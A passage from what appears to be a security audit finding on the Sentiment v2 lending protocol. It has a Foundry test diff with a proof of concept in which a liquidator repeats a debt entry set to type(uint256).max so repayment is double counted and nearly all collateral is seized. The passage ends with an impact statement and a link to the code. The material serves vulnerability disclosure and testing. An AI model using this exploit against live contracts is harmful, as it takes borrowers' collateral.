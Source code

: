 ```diff
+        AssetData memory asset2Data = AssetData({ asset: address(asset2), amt: maximumSeizableAssets + 10 });
+        AssetData[] memory assets = new AssetData[](1);
+        assets[0] = asset2Data;
+
+        asset1.mint(liquidator, 10e18);
+
+        vm.startPrank(liquidator);
+        asset1.approve(address(positionManager), 1e18);
+
+        // seizeAttempt value : 1250000000000000008, seizable value : 1250000000000000000
+        vm.expectRevert(abi.encodeWithSelector(RiskModule.RiskModule_SeizedTooMuch.selector, 1250000000000000008, 1250000000000000000));
+        positionManager.liquidate(position, debts, assets);
+        vm.stopPrank();
+
+        // but an attacker can liquidate almost double by exploiting the type.max issue
+        debtData = DebtData({ poolId: fixedRatePool, amt: 0.9e18 });
+        debts = new DebtData[](2);
+        debts[0] = debtData;
+
+        // replay the balance value. this will cause the repaid amount to be double counted allowing the user to liquidate the entire assets
+        debtData = DebtData({ poolId: fixedRatePool, amt: type(uint256).max });
+        debts[1] = debtData;
+
+        // liquidate full asset balance
+        asset2Data = AssetData({ asset: address(asset2), amt: 2e18 });
+        assets = new AssetData[](1);
+        assets[0] = asset2Data;
+
+        // liquidate
+        vm.startPrank(liquidator);
+        asset1.approve(address(positionManager), 1e18);
+        positionManager.liquidate(position, debts, assets);
+        vm.stopPrank();
+    }
+
     function testLiquidate() public {
         vm.startPrank(user);
         asset2.approve(address(positionManager), 1e18);
```

## Impact
Borrowers will loose excess collateral during liquidation

## Code Snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/RiskModule.sol#L129-L145

